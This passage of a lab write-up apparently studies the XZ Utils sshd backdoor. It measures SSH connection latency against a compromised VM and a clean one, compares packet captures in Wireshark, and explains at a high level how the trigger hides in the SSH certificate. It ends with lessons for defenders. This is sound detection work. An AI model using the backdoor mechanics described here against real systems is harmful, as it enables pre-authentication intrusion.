


#### Analysis

We can now jump into the analyst via the shell

```
multipass shell analyst
```

We will run an ssh timing test against the compromised host (note, the IP address is found in the `multipass list` command)

```
for i in $(seq 1 20); do   start=$(date +%s.%N);   ssh -o PreferredAuthentications=none -o StrictHostKeyChecking=no       -o UserKnownHostsFile=/dev/null -o ConnectTimeout=5 user@10.77.0.20 2>/dev/null;   end=$(date +%s.%N);   echo "$end - $start" | bc; done
```

This shows the following ssh connection times for the **compromised** host:

```
ubuntu@analyst:~$ for i in $(seq 1 20); do   start=$(date +%s.%N);   ssh -o PreferredAuthentications=none -o StrictHostKeyChecking=no       -o UserKnownHostsFile=/dev/null -o ConnectTimeout=5 user@10.77.0.20 2>/dev/null;   end=$(date +%s.%N);   echo "$end - $start" | bc; done
.181421156
.182843902
.183128082
.182681376
.182867496
.181171266
.183060066
.182089386
.182991581
.182543126
.182723134
.183225566
.186945601
.182638301
.181828258
.180882024
.184421814
.186040729
.182240909
.183035004
```

If we repeat this for the **normal** VM (without the backdoor):

```
ubuntu@analyst:~$ for i in $(seq 1 20); do   start=$(date +%s.%N);   ssh -o PreferredAuthentications=none -o StrictHostKeyChecking=no       -o UserKnownHostsFile=/dev/null -o ConnectTimeout=5 user@10.77.0.30 2>/dev/null;   end=$(date +%s.%N);   echo "$end - $start" | bc; done
.068866651
.070507232
.065902107
.067076521
.069929384
.070921903
.065793090
.067075920
.065949202
.065902640
.066759632
.066617115
.070120070
.065938200
.066978426
.066827569
.066912899
.065962894
.066258463
.067813848
```

The compromised connects are roughly 3x the non-compromised one!

> **A note on the numbers:** Freund's original report described SSH logins running about **~500ms** slower in the wild. This minimal lab shows a smaller absolute delta — **~115ms** at the session level here (0.182s vs 0.067s), and a **~120ms banner stall** isolated in Frame 6 of the pcap below (a ~32x gap on *that single frame*, versus ~3x across the whole connection). These aren't in conflict: it's the **same load-time mechanism** measured three different ways, at different scales, on different hardware and build conditions. The wild number is bigger; the lab number is cleaner. Don't anchor on the exact milliseconds — anchor on the fact that the cost is real, repeatable, and lands at *connection setup*. 

### The PCAP reality

Collecting PCAP gives us some extra analysis:

Open a second terminal and connect to the analyst VM:



In one terminal start a capture on the `ens4` interface

```
sudo tcpdump -i ens4 -n -G 60 -W 1 -w capture-compromised.pcap
```

In the other, ssh into the compromised machine

```
ssh 10.77.0.20
```



After 60 seconds the capture should stop:



Repeat the process, this time against the normal VM:


```
sudo tcpdump -i ens4 -n -G 60 -W 1 -w capture-normal.pcap
```

In the other, ssh into the normal machine

```
ssh 10.77.0.30
```

At this point we have pcap of both a compromised ssh connection and a non-compromised one.

Exit the lab and exit out of the VMs

```
exit
```

Transfer the pcaps off the box:

```
multipass transfer analyst:capture-compromised.pcap .
multipass transfer analyst:capture-normal.pcap .
```

The trigger rides inside the **SSH certificate's CA signing-key `N` value** — ChaCha20-encrypted, Ed448-signed. But SSH `userauth` happens *after* key exchange, so it travels **inside the encrypted transport**. A raw capture of a live connection shows an utterly ordinary SSH session: TCP metadata, kex, then opaque ciphertext.

**The payload is not visible on the wire in cleartext.** That's the whole point — and a sobering one for anyone who assumed network IDS would have caught this. What the pcap *does* give you:

- **Flow + timing metadata** — the abnormal CPU/latency that actually blew the whistle, visible at the session level.
- **Session structure** — concrete proof of *why* a signature-based NIDS was blind here.

The backdoor's cost shows up as server-side processing latency between two packets, not as a slow packet on the wire. The question is *where* in the connection it lands — and this is where my capture pushed back on the tidy explanation I'd read elsewhere.

The popular framing is that the delay sits in the authentication round-trip, because the hook lives in `RSA_public_decrypt` — the function sshd calls to verify the client's offered key during user auth. That code path does run the hook, and it does add work. But that's not where my capture showed the bulk of the time going.

The dominant cost is at **session startup**. With re-exec enabled (the default), every incoming connection forks a fresh `sshd` child that re-loads `liblzma`, and the backdoor does its expensive work *then* — hijacking glibc's symbol resolution to plant the IFUNC hook before the daemon ever speaks. That's load-time, before the banner, and it's per-connection. It also lines up exactly with what tipped Freund off in the first place: "strange symbol-resolution overhead." So the latency surfaces early — in the banner/hello — not deep in the auth exchange.

What makes a clean control by comparison:

- The TCP handshake (SYN/SYN-ACK/ACK) — that's the kernel; sshd never runs.
- The KEXINIT negotiation and ECDH key exchange — the host-key signing in `KEX_ECDH_REPLY` uses a different function than the hooked one, so that phase times the same on compromised and clean.

So in this lab the signal is right up front, at connection setup, which is what Frame 6 below makes visible.

We can view this in wireshark


Open Wireshark and enable

  * Preferences → Protocols → TCP → "Calculate conversation timestamps.



Then add the `tcp.time_delta` column:



Set:

  * Title:  tcp.time_delta
  * Type:  Delta time
  * Click and drag above INfo (so it appears between Length and Info)

This will add a nice duration column to each packet



Leave that wireshark instance open, and open a second one with the pcap capture from the normal ssh.  Repeat the steps above to add the delta column.

Add ssh as the filter in both captures:



**Frame 6 is the clearest divergence in the capture** — though I wouldn't call it a smoking gun. In the compromised session the server
takes **0.1234 s** to emit its OpenSSH banner (`SSH-2.0-OpenSSH_8.9p1`); the clean
host does it in **0.0038 s**. That ~120 ms stall lands at session startup, before key
exchange or auth — which is where the re-exec/load-time argument above would predict
the backdoor's hooking work to surface, and it's consistent with the per-connection
CPU and latency Freund originally reported.

Two honest caveats keep this a lead and not proof:

- **The more widely repeated framing puts the cost in the auth round-trip**, not the
  banner — because the functional hook lives in `RSA_public_decrypt`, which sshd calls
  during publickey `userauth` (and the `mm_answer_keyallowed` / `mm_answer_keyverify`
  monitor functions downstream of it). That path genuinely runs the hook and adds work.
  The real disagreement is only about whether the *load-time* resolver cost or the
  *auth-time* hook cost dominates the wall clock — and a single capture can't settle
  that. It shows where the time went *here*, on *this* build, not a universal signature.

- **Published analysis never packet-localized the delay.** Freund found it via CPU
  profiling and Valgrind, not by timing the handshake. So "the delay is in the banner"
  is my read of this pcap, not something the community has confirmed on the wire. Treat
  the banner placement as reproducible-if-you-test-it, not canon.

Clearly more work is needed to verify where, exactly, the stall occurs.  This is going to require more network variety, different set ups and more reps.


## Was the Backdoor ever fired in anger? (and why there's no juicy pcap)

The natural next thought is: the attacker surely *tested* this thing — so somewhere there must be a capture of a real trigger we could pore over. Sadly (or reassuringly), no. A few reasons converge:

- **No known in-the-wild use.** There is **no publicly documented case** of the backdoor being triggered against a real victim with the original private key. It was caught while still confined to *rolling/testing* distros (Debian sid, Fedora Rawhide, and friends), before it reached the stable enterprise releases that were the actual prize. The operator was visibly *rushing* distros to ship the update — a strong tell that they hadn't yet reached their target population. They were caught at the starting line.
- **Any testing happened off-camera.** You exercise a weapon like this on infrastructure you control, privately. Nobody was sniffing the attacker's lab.
- **Even a capture wouldn't be the treasure you'd hope.** As the pcap reality above spells out, the trigger lives inside the SSH certificate exchanged during *publickey auth* — **after** key exchange, inside the encrypted transport. A passive observer sees an ordinary SSH session: handshake, kex, then opaque ciphertext. There are **no plaintext magic bytes on the wire**. The trigger is only legible *host-side*, where the hook sees the decrypted certificate.

The closest thing to "real" capture infrastructure is the honeypots researchers stood up *after* disclosure — **[lockness-Ko/xz-vulnerable-honeypot](https://github.com/lockness-Ko/xz-vulnerable-honeypot)** (genuine vulnerable xz 5.6.1 + Fedora `sshd`, watched with `bpftrace`, `strace`, `tcpdump`, and `sshd` logs) and **[xzbot](https://github.com/amlweems/xzbot)**'s logging `sshd`. But note the asymmetry: a honeypot can log a connection *shaped* like the backdoor trigger, yet it can **never** observe a *valid* activation — that needs the unknown private key. Post-disclosure hits are scanners and researchers probing the format, not the author returning to the scene.

So the only genuinely valid trigger traffic that exists anywhere is the kind **you generate yourself** in the lab above. And the captivating artifact isn't the (encrypted) pcap — it's the **host-side trace**: `bpftrace`/`strace` catching the hook fire, alongside the `xzbot: magic 1` log line. That's exactly the stack the honeypots instrument, and exactly what the wire could never show you.

## The real takeaways for defenders

This attack is famous, but the *wrong* lesson is "patch XZ." It's already patched. The durable lessons are about your posture against the **next** one:

- **Know your transitive dependencies.** The kill chain ran through a seam — `sshd → libsystemd → liblzma` — that almost no threat model included. Maintain a real **SBOM (Software Bill of Materials)** so you can answer "what links into my crown-jewel processes?" in minutes, not days.
- **Build from source you actually reviewed.** The payload existed in the *tarball* but not in *git*. Reproducible builds and source-to-binary provenance (e.g., SLSA) close this exact gap.
- **The maintainer is part of the attack surface.** Single-maintainer critical dependencies are a structural risk. Sustainable funding and co-maintainer vetting are now *security* controls, not just nice-to-haves.
- **Anomalies are signal.** A 500ms latency regression caught this. Baseline your systems' behavior — CPU, latency, syscalls on sensitive daemons — so the weird thing has something to look weird *against*.
- **Reduce *reachability*, not just auth strength.** Be clear-eyed about what helps here: this is *pre-authentication* RCE — the payload fires while `sshd` parses the offered key, before any login decision. So MFA, key-only auth, and `fail2ban` do **nothing** against the trigger itself. What raises the cost is limiting who can open a socket to the daemon at all: network segmentation, bastion hosts, allow-listed management networks, and not exposing `sshd` to the internet. Least privilege then caps the blast radius if it does fire.

The XZ backdoor wasn't stopped by a clever algorithm. It was stopped by a maintained system, a measured baseline, and a human in the loop who trusted their instincts. That's worth remembering the next time someone tells you security is purely a tooling problem.

## References

- [CVE-2024-3094 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-3094)
- [XZ Utils backdoor — Wikipedia](https://en.wikipedia.org/wiki/XZ_Utils_backdoor) (detailed timeline and citations)
- [Andres Freund's original oss-security disclosure](https://www.openwall.com/lists/oss-security/2024/03/29/4)
- [CISA Alert on the XZ Utils backdoor](https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094)
- [Sonatype: a targeted backdoor supply-chain attack](https://www.sonatype.com/blog/cve-2024-3094-the-targeted-backdoor-supply-chain-attack-against-xz-and-liblzma)
- [xkcd 2347: "Dependency"](https://xkcd.com/2347/)
